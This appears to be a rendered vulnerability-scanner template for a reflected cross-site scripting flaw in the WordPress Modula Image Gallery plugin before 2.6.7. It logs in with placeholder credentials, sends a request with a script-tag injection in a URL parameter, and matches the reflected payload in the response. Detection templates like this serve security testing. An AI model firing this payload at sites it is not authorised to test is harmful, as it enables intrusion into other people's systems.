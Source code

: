 **Type - status**

- status
  1. 200

---

# WordPress Modula Image Gallery \<2.6.7 - Cross-Site Scripting

## Description

- WordPress Modula Image Gallery 2.6.7 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - authenticated,wpscan,wp-plugin,xss,wp,wordpress

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/edit.php?post_type=modula-gallery&page=modula-addons&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. &a\">\<script>alert(1)\</script>&extensions=

**Type - word**

- part - header
- words
  1. text/html
